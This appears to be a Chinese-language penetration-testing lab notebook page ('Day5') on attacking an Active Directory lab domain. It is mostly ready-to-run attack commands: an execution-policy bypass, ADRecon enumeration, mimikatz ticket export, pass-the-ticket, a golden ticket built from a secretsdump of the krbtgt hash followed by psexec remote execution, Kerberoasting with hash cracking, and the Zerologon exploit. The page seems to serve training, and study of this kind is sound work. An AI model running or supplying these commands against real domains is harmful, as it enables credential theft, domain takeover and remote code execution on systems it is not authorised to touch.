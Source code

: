 Day5
===
ADRecon
---
    AD由三個部分組成
    目錄分割區
    設定檔
    Schema資料庫結構
![image](https://github.com/user-attachments/assets/5f241d92-cbbd-4673-9652-2120ee57b018)
![image](https://github.com/user-attachments/assets/2a14572d-8f90-4533-835c-513a9945791e)

    蒐集AD資訊，下載ADRecon工具
[ADRecon工具](https://github.com/adrecon/ADRecon)
![image](https://github.com/user-attachments/assets/b3735d89-1269-4271-a994-8b2bb5b57117)

    執行powershell&ADRecon.ps1
    powershell.exe  -nop –ep bypass
    -nop:PowerShell 在啟動時不讀取任何配置文件，包括使用者配置文件。
    -ep: -ExecutionPolicy Bypass 的簡寫
    > in Domain
    ./adrecon.ps1
    > OR Not in Domain
    ./adrecon.ps1 -DomainController 192.168.177.19 –OutputType ALL -Credential lpt.com\cpent
    > OR
    ./adrecon.ps1 -DomainController 192.168.177.19 –OutputType HTML -Credential lpt.com\cpent
![image](https://github.com/user-attachments/assets/63813ab0-0e04-42ef-8f18-86b36605c65a)
![image](https://github.com/user-attachments/assets/12ddffa2-2bf4-4b03-871f-b53ef80c8687)

Export Kerberos Tickets
---
    使用mimikatz工具
    mimikatz
    privilege::debug
    sekurlsa::tickets /export
![image](https://github.com/user-attachments/assets/325d960d-dbe1-4dd5-8533-3b9b4fa6ccc9)
![image](https://github.com/user-attachments/assets/cf574c3d-244b-4dfa-a7aa-77905f6e0438)

Pass the Ticket
---
    取得DC TGT拿到另外一台機器匯入TGT，尚未匯入前無法訪問DC目錄
![image](https://github.com/user-attachments/assets/c244175e-bf04-4d54-a842-4f2171abf30e)
![image](https://github.com/user-attachments/assets/e83a042a-4223-4460-94ca-d4426c83289c)

    匯入TGT&確認票卷
![image](https://github.com/user-attachments/assets/4a8cfc5b-0cb2-4156-a80b-6cd23f8faf35)
![image](https://github.com/user-attachments/assets/57868c45-8eb9-4959-aa94-31a1371981d5)

    可瀏覽DC目錄
![image](https://github.com/user-attachments/assets/1495a602-6c57-4ff2-a1a8-67af5b4b1227)

Golden Ticket Attack
---
    /etc/hosts新增IP&域名
![image](https://github.com/user-attachments/assets/cd32ab86-fca6-447e-bda6-ede7ce144113)

    取得administrator的krbtgt的NTLM hash
    impacket-secretsdump 'administrator:Pa$$w0rd'@192.168.177.19    
![image](https://github.com/user-attachments/assets/164b2a01-4163-4cef-a8db-4f4b19f663a5)

    取得administrator的SID
    python3 /opt/impacket/examples/lookupsid.py 'administrator:Pa$$w0rd'@192.168.177.19 0
![image](https://github.com/user-attachments/assets/3ec80a6d-4cce-406a-84af-28f25dff7e05)

    簽一張TGT
    python3 /opt/impacket/examples/ticketer.py -nthash <ntlm_hash> -domain-sid <sid> -domain lpt.com evil
![image](https://github.com/user-attachments/assets/1e063263-9b10-4248-8545-09fb0828fe89)

    設定環境變數
    export KRB5CCNAME=~/evil.ccache
![image](https://github.com/user-attachments/assets/dd1603e6-c95a-48ae-8f2f-cfbf5f806cb8)

    執行RCE
    psexec.py lpt.com/evil@server2019.lpt.com -k -no-pass -dc-ip 192.168.177.19
![image](https://github.com/user-attachments/assets/afa4eab9-d9e7-4603-8c33-c7708c096562)

Kerberoasting
---
    Register service in AD
    setspn -s http/lpt.com user-one
![image](https://github.com/user-attachments/assets/fbca5919-1e5d-4a1f-9fff-c59e2e07dcd5)
  
    取得在DC上註冊的服務&密碼HASH
    GetUserSPNs.py 'lpt.com/cpent:Pa$$w0rd' -dc-ip 192.168.177.19 -request -outputfile kerberoast.txt
![image](https://github.com/user-attachments/assets/f4ca12aa-9f57-4d1d-a892-6f0576e95622)
![image](https://github.com/user-attachments/assets/eceb82db-8e93-47f4-a09f-5f5c7a76c27b)

    使用john破解user-one密碼
![image](https://github.com/user-attachments/assets/cad67771-346f-4b44-83af-8625d293407f)

Zerologon
---
    下載新版mimikatz
 [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919)
![image](https://github.com/user-attachments/assets/c1213384-fed5-4171-ad7b-a0fd068dc5ad)

    執行mimikatz並dump
    lsadump::Zerologon /target:192.168.177.19 /account:server2019$ /null /ntlm /exploit
    lsadump::postzerologon /target:192.168.177.19 /account:server2019$
![image](https://github.com/user-attachments/assets/07bd99c9-3e5b-417a-b4ce-33f5628990bd)
